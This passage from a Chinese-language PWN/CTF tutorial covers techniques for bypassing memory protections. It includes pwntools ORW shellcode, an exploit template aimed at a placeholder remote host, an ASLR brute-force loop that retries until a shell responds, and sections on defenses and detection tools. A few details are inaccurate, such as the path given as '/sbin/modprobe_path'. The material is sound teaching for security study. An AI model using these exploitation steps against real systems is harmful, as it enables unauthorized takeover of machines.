| KPTI | 内核/用户页表隔离 | 绕过或构造 return to user |
| Stack Protector | 栈保护 | 泄露 canary |

### 10.3 常用内核利用技术

| 技术 | 说明 |
|:----|:----|
| **modprobe_path** | 覆盖 `/sbin/modprobe_path` 指向恶意脚本 |
| **core_pattern** | 覆盖 `/proc/sys/kernel/core_pattern` |
| **cred 结构体覆盖** | 修改当前进程的 uid=0 |
| **tty_struct** | 利用 tty 驱动结构体获得任意读写 |
| **pipe_buffer** | 利用 pipe 的 flags 位获得任意读写 |
| **msg_msg** | 利用消息队列实现内核堆利用 |
| **ret2dir** | 利用直接物理内存映射 |
| **Stack Pivot** | 将内核栈 pivot 到可控区域 |

---

## 十一、绕过技术全解

### 11.1 🟢 绕过 NX

| 方法 | 说明 | 适用场景 |
|:----|:----|:--------|
| **Ret2Libc** | 调用 libc 函数 | 有 libc 信息 |
| **Ret2syscall** | 直接系统调用 | 静态编译，有 gadget |
| **ROP链** | 拼接 gadget 执行任意操作 | 有足够 gadget |
| **mprotect** | 通过 ROP 调用 mprotect 修改内存为 RWX | 有 libc 或 syscall |

### 11.2 🟡 绕过 ASLR

| 方法 | 说明 | 成功率 |
|:----|:----|:------|
| **信息泄露** | 通过格式化字符串/堆泄露地址 | 100% |
| **部分覆盖** | 只覆盖返回地址低字节 | 1/16 ~ 1/4096 |
| **爆破** | 32位 ASLR 熵较低（8位=256次） | 1/256 (32bit) |
| **堆喷** | 大量分配堆内存覆盖目标区域 | 中 |
| **Ret2vdso** | vdso 位置相对固定 | 低版本内核 |

### 11.3 🟡 绕过 PIE

| 方法 | 说明 |
|:----|:----|
| **部分覆盖** | 只覆盖 RIP 的低位字节 |
| **泄露代码段地址** | 通过格式化字符串或堆泄露 |
| **Ret2PLT** | PLT 中的函数相对位置固定 |
| **GOT 覆盖** | GOT 地址可通过链接得到 |

### 11.4 🟡 绕过 Stack Canary

| 方法 | 说明 |
|:----|:----|
| **Canary 泄露** | 格式化字符串读取 Canary |
| **线程 Canary 爆破** | fork 子进程 Canary 相同（1/256爆破） |
| **覆盖 TLS 中的 Canary** | 需要任意写 |
| **SSP 绕过** | 不触发检查（先覆盖其他指针）|

### 11.5 🔵 绕过 Full RELRO

| 方法 | 说明 |
|:----|:----|
| **_IO_2_1_stdout_ 覆写** | 修改文件流结构体 |
| **__free_hook / __malloc_hook** | glibc < 2.34 存在 hook 指针 |
| **FSOP** | File Stream Oriented Programming |
| **Exit Hook** | `__exit_funcs` 覆写 |
| **VTable 指针** | 覆盖 C++ 虚函数表 |

> ⚠️ glibc 2.34+ 移除了 `__free_hook`、`__malloc_hook`、`__realloc_hook`，需要使用更高级的技术如 FSOP。

### 11.6 🔵 绕过沙箱（seccomp）

当目标程序使用了 seccomp 限制系统调用时，不能直接执行 `execve("/bin/sh")`，需要 Open-Read-Write（ORW）链。

```python
# Open-Read-Write 链：读取 flag.txt 内容并输出
from pwn import *

# pwntools 自动生成 ORW Shellcode
shellcode = shellcraft.open('flag.txt')
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)

payload = asm(shellcode)
```

### 11.7 ⭐ 绕过方法速查表

| 保护组合 | 绕过策略 | 复杂度 |
|:--------|:--------|:------|
| NX only | Ret2Libc / ROP | 🟢 低 |
| NX + ASLR | 泄露→计算→ROP | 🟡 中 |
| NX + ASLR + Canary | 泄露 Canary + 泄露地址 → ROP | 🟡 中 |
| NX + ASLR + Canary + PIE | 三次泄露 → ROP | 🔵 高 |
| Full RELRO + 全保护 | FSOP / 堆利用 | 🔴 高 |
| seccomp 沙箱 + 全保护 | ORW 链 + 堆利用 | 🔴 极高 |

---

## 十二、PWN实战流程

### 12.1 标准化利用流程



### 12.2 Exploit 脚本模板

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

# ═══════════════════════════════════════
# 配置
# ═══════════════════════════════════════
context.arch = 'amd64'       # i386 / amd64
context.log_level = 'debug'  # debug / info / warning
context.terminal = ['tmux', 'splitw', '-h']  # GDB 终端

# ═══════════════════════════════════════
# 连接
# ═══════════════════════════════════════
if args.REMOTE:
    p = remote('target.com', 1337)
elif args.GDB:
    p = process('./vuln')
    gdb.attach(p, '''
        break *0x400000
        continue
    ''')
else:
    p = process('./vuln')

# ═══════════════════════════════════════
# ELF / Libc
# ═══════════════════════════════════════
elf = ELF('./vuln')
libc = ELF('./libc.so.6') if args.LIBC else None

# ═══════════════════════════════════════
# 工具函数
# ═══════════════════════════════════════
def leak_addr():
    p.recvuntil(b'> ')
    p.sendline(b'%7$p')
    return int(p.recvline().strip(), 16)

def send_payload(payload):
    p.recvuntil(b'> ')
    p.send(payload)

# ═══════════════════════════════════════
# Exploit 主逻辑
# ═══════════════════════════════════════

# ─── 阶段 1: 泄露信息 ───
# ...

# ─── 阶段 2: 计算地址 ───
# ...

# ─── 阶段 3: 发送 Payload ───
# ...

# ═══════════════════════════════════════
# 交互
# ═══════════════════════════════════════
p.interactive()
```

### 12.3 远程调试技巧

```python
# GDB 附加调试
gdb.attach(p, '''
    set follow-fork-mode child
    b *0x8048490
    c
''')

# 核心转储分析
# 在远程崩溃时获取 core dump
p.sendline(payload)
p.wait()
# 分析: gdb ./vuln core

# 循环连接直到成功（ASLR 爆破场景）
from pwn import *
context.log_level = 'warn'

for i in range(256):
    try:
        p = remote('target.com', 1337, timeout=2)
        p.sendline(payload)
        p.sendline(b'id')
        if b'uid=' in p.recv(timeout=1):
            log.success(f'Exploit success on attempt {i}!')
            p.interactive()
            break
        p.close()
    except:
        pass
```

### 12.4 常用调试命令速查

```gdb
# Pwndbg 常用命令
checksec                    # 查看保护机制
cyclic 200                  # 生成模式字符串
cyclic -l 0x6161616c        # 查找偏移
vmmap                       # 查看内存映射
search /bin/sh              # 搜索字符串
plt                         # 查看 PLT 表
got                         # 查看 GOT 表
find_fake_fast              # 查找 fake fastbin chunk
heap                        # 显示堆信息
bins                        # 显示各种 bin
telescope $rsp              # 查看栈上值
x/gx $rsp                   # 查看内存
ni / si                     # 单步执行
context                     # 显示寄存器 + 反汇编 + 栈
```

---

## 十三、防御与检测

### 13.1 编译时防御

```bash
# 生产环境编译选项（推荐）
gcc -o app app.c \
    -fstack-protector-all \    # 栈保护
    -fPIE -pie \               # 位置无关
    -z relro -z now \          # GOT 保护
    -z noexecstack \           # 栈不可执行
    -D_FORTIFY_SOURCE=2 \      # 编译时检查
    -Wformat -Wformat-security # 格式化字符串警告
```

### 13.2 运行时防御

```bash
# ASLR (0=关闭, 1=部分, 2=完全)
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

# 内核保护
sysctl -w kernel.exec-shield=1
sysctl -w kernel.randomize_va_space=2
```

### 13.3 检测清单

| 检测项 | 方法 | 工具 |
|:------|:----|:----|
| 栈溢出检测 | 检查 strcpy/gets/scanf 使用 | CodeQL / Flawfinder |
| 格式化字符串 | 检查 printf 含用户输入 | 代码审计 |
| 整数溢出 | 检查算术运算边界 | Coverity |
| 堆溢出 | 检查 malloc 大小计算 | AddressSanitizer |
| UAF | 检查 free 后指针使用 | AddressSanitizer |
| 释放后使用 | 检查使用后置空指针 | 代码审计 |
| ASLR 状态 | 检查 `/proc/sys/kernel/randomize_va_space` | checksec |

### 13.4 检测工具

```bash
# AddressSanitizer（编译时检测）
gcc -fsanitize=address -fno-omit-frame-pointer -g -o vuln vuln.c

# Valgrind（运行时检测）
valgrind --leak-check=full ./vuln

# AFL（模糊测试）
afl-gcc -o vuln vuln.c
afl-fuzz -i input_dir -o output_dir ./vuln @@

# CodeQL（静态分析）
codeql database create --language=cpp ./db
codeql database analyze ./db --format=sarif-latest --output=results.sarif
```

---

## 十四、工具速查表

### 14.1 Pwntools 常用函数

| 函数 | 用途 |
|:----|:----|
| `p32(x)` / `p64(x)` | 打包为小端序字节 |
| `u32(b)` / `u64(b)` | 解包小端序为整数 |
| `asm("code")` | 汇编代码为机器码 |
| `disasm(b)` | 反汇编 |
| `shellcraft.sh()` | 生成 /bin/sh shellcode |
| `ELF(path)` | ELF 文件解析 |
| `ROP(elf)` | ROP 链自动搜索 |
| `cyclic(n)` | 生成模式字符串 |
| `cyclic_find(v)` | 查找偏移量 |
| `process(cmd)` | 启动本地进程 |
| `remote(host, port)` | 远程连接 |
| `gdb.attach(p)` | 附加调试器 |
| `fmtstr_payload(offset, writes)` | 格式化字符串 Payload |
| `SigreturnFrame()` | SROP 帧构造 |
| `packed` | 自动选择 p32/p64 |

### 14.2 GDB/Pwndbg 常用命令

| 命令 | 用途 |
|:----|:----|
| `checksec` | 查看保护机制 |
| `cyclic 200` | 生成模式字符串 |
| `cyclic -l <addr>` | 查找偏移 |
| `vmmap` | 内存映射查看 |
| `heap` | 堆信息 |
| `bins` | 查看 fastbin/unsorted bin |
| `telescope <addr>` | 查看地址附近内存 |
| `search <str>` | 搜索字符串 |
| `context` | 显示完整上下文 |
| `plt` | 查看 PLT |
| `got` | 查看 GOT |
| `break *addr` | 下断点 |
| `x/20gx $rsp` | 查看栈上 20 个 qword |
| `find_fake_fast` | 查找伪造 fastbin |
| `dumpargs` | 显示即将调用的函数参数 |

### 14.3 libc 版本识别工具

```bash
# LibcSearcher
python3 -c "
from pwn import *
libc = LibcSearcher('puts', leaked_puts_addr)
libc.dump('system')
libc.dump('str_bin_sh')
"

# libc-database（离线）
# https://github.com/niklasb/libc-database
./get ubuntu:20.04 libc6
./find puts f0
./dump libc6_2.31-0ubuntu9.16_amd64

# 在线查询
# https://libc.blukat.me/
# https://libc.rip/
```

### 14.4 one_gadget

```bash
# 搜索 libc 中的 magic gadget（一条指令 getshell）
one_gadget /lib/x86_64-linux-gnu/libc.so.6

# 输出示例：
# 0xe3afe execve("/bin/sh", r15, r12)
# constraints: [r15] == NULL || r15 == NULL
# 0xe3b01 execve("/bin/sh", r15, rdx)
# constraints: [r15] == NULL || r15 == NULL
# 0xe3b04 execve("/bin/sh", rsi, rdx)
# constraints: [rsi] == NULL || rsi == NULL
```

### 14.5 在线资源

| 资源 | 地址 | 说明 |
|:----|:----|:----|
| **libc.blukat.me** | https://libc.blukat.me/ | libc 在线查询 |
| **libc.rip** | https://libc.rip/ | libc 在线识别 |
| **Exploit-DB** | https://www.exploit-db.com/ | 漏洞利用数据库 |
| **Pwntools Docs** | https://docs.pwntools.com/ | 官方文档 |
| **CTF Wiki** | https://ctf-wiki.org/ | PWN 知识体系 |
| **Nightmare** | https://github.com/guyinatuxedo/nightmare | PWN 题目教程 |
| **RPISEC Modern Binary** | https://github.com/RPISEC/MBE | 现代二进制利用课程 |
| **How2heap** | https://github.com/shellphish/how2heap | 堆利用教程合集 |

---

> **关联文件**：[Linux安全渗透测试全技巧](03-linux-pentest.md) · [SQL注入全技巧](09-sql-injection.md) · [命令注入全技巧](11-command-injection.md) · [反序列化注入全技巧](18-deserialization.md)
>
> **建议前置**：若对 Linux 基础不熟，先阅读 [Linux安全渗透测试全技巧](03-linux-pentest.md)
>
> **一句话总结**：PWN 的本质是理解内存布局 → 定位漏洞点 → 构造 Payload → 绕过保护机制 → 获取控制权
